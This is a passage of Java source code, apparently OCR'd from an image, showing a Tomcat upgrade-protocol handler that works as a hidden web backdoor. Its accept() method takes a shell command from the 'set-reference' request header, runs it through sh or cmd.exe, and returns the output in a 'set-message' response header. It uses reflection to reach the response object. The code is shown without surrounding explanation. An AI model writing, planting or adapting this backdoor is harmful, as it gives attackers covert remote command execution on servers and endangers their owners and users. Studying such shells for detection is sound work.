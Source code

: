 ```java

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, Request request) {
            return null;
        }

        @Override
        public boolean accept(Request request) {
            String cmd = request.getHeader("set-reference");
            try {
                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";

                    Response response = (Response) getField(request, "response");
                    response.addHeader("set-message", new String(output.getBytes(), StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
    }

    public Object getField(Object obj, String field) {
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }
```